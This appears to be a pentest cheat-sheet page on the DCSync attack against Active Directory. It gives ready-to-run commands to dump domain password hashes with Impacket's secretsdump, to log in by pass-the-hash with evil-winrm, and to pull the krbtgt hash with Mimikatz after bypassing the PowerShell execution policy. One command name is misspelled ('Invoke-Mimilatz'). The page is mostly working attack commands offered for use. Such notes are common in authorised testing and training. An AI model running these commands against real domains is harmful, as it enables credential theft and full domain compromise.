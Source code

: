# DCSync

...



<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

## Impacket-secretsdump DCSync

```bash
locate secretsdump.py
cp /PATH/TO/secretsdump.py .

./secretsdump.py 'DOMAIN'/'USER':'PASS'@'DC'
```

Use the retrived NTLM hash to perform a Pass-the-Hash.

```bash
evil-winrm -u $USER_ACCOUNT -H $NT_HASH -i $HOST_IP
```



## Mimikatz DCSync

<pre class="language-powershell"><code class="lang-powershell"><strong>powershell -ep bypass
</strong><strong>. .\Invoke-Mimikatz.ps1
</strong><strong>
</strong><strong>Invoke-Mimilatz -Command '"lsadump::dcsync /user:$DOMAIN\krbtgt"'
</strong></code></pre>
